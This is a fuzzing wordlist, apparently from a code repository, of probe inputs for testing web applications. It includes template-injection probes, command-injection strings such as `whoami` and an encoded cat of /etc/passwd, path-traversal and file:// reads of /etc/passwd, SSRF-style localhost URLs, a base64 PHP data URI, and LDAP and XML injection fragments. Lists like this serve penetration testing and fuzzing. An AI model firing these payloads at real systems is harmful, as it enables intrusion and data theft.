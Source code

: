 ```txt
\r\n
\\n
\\r
\\r\\n
\\s
//
//*
*/*
@*
undefined
undef
null
NULL
(null)
nil
NIL
true
false
True
False
TRUE
FALSE
None
NaN
()
{}
[]
<>
\\
0xdeadbeaf
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
`whoami`
uname%20-a
%3Bcat%20/etc/passwd
cmd.exe

}}<tag>
https://127.1/
ftp://0x7f000001/
smb://0000::1:445/
file:///etc/passwd
./../../../etc/passwd
zip:///filename_path
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
test}}{
foo<
foo'
foo<!--
&foo
]]>
foo</bar>\"
*)(&
,*)(|&
pwd)
*)(|(*
*))%00
,admin)(&)
user=*)(uid=*))(|(uid=*
test&foo=\"
```